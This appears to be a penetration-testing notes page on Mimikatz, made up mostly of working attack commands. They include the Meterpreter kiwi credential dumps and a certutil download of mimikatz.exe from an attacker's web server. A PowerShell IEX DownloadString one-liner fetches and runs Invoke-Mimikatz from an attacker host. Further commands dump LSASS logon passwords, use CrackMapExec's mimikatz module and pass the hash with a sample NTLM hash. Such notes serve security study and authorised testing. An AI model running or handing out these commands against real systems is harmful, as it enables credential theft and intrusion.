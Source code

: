 # Mimikatz

**Mimikatz** is a Windows post-exploitation tool. It allows fot the extraction of clear-text passwords, hashes and kerberos tickets from memory.

Allow us to perform: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket, and Golden Ticket.



**Required**:

* **pwd the target** with shell/meterpreter
* login with a **high privilege account**



## Transfer to target



<pre class="language-bash" data-title="Metasploit module"><code class="lang-bash"># load the kiwi module
load kiwi

# get help menu
?

# retrieve all credentials with kiwi
creds_all

<strong># dump from SAM db
</strong>lsa_dump_sam
</code></pre>



{% code title="PS shell" %}
```powershell
# create a 'Temp' dir on Target Machine
mkdir Temp

# cp mimikatz file and host server in attack machine on port 80
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# download .exe from attack machine
certutil -urlcache -f http://IP:80/mimikatz.exe mimikatz.exe
```
{% endcode %}



{% code title="meterpreter & mimikatz.exe" %}
```powershell
# create a 'Temp' dir
mkdir Temp

# upload .exe from meterpreter to target machine
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

# execute the program via shell in the target machine
.\mimikatz.exe

# check required privileges
privilege::debug

# lsa dump from SAM db
lsadump::sam

# show clear-text passwords
sekurlsa::logonpasswords
```
{% endcode %}



## MimiKatz into PowerShell RevShell

Stablished a connection with Hoaxshell

[#hoaxshell](../../pt/executive-pt/post-exploitation/shells.md#hoaxshell "mention")

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1
```
{% endcode %}

Host a webserver with the module Invoke-Mimikatz.ps1

```
python3 -m http.server 80
```

Run this command to import the mimikatz module from attacker webserver and use it.

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<ATT_IP>:<ATT_PORT>/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
{% endcode %}



## Mimikatz with CrackMapExec

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```



## Credentials Dump

### NTLM

```powershell
```



## Methods

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### sekurlsa

The **sekurlsa** module in Mimikatz, leverages a number of different techniques to extract authentication information from _**LSASS**_ memory including parsing memory structures and using Windows APIs.

#### "logonpasswords"&#x20;

The "logonpasswords" function of this module specifically extracts login session data such as saved password hashes and cached credentials. This can include the current user's logon information, as well as information for other users who have logged onto the same machine.

Example:

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

#### "pth"

The "sekurlsa::pth" command in mimikatz is a features that facilitates "Pass-the-Hash" attacks. This technique allows us to authenticate to a remote system by using a captured NTLM hash of a user's password, without the need for the actual password. To execute this command, we must provide only the following parameters:

* **/user**: (the username)
* **/domain**: (the domain)
* **/ntlm**: (the NTLM hash of the user's password)

{% hint style="info" %}
Note that Windows passwords are not only limited to the NTLM protocol, but may also use popular block encryption algorithms like AES-128 and AES-256 for password storage. In such cases, adversaries would need to use the _**/aes128**_: or _**/aes256**_: parameters instead of _**/ntlm**_:
{% endhint %}

Example:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:Alice /domain:domain.com /ntlm:a0c8746a6efc7782c7c19c55185145be"
```
{% endcode %}



### privilege

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration

#### "debug"

Before run the "sekurlsa::logonpasswords" function, we need to run the "privilege::debug" command.

By default, LSASS runs with high integrity and is protected from being debugged by unauthorized processes. However, by enabling the "_**debugger privilege**_" function, we can bypass this protection and access LSASS memory to extract the logon session data.

















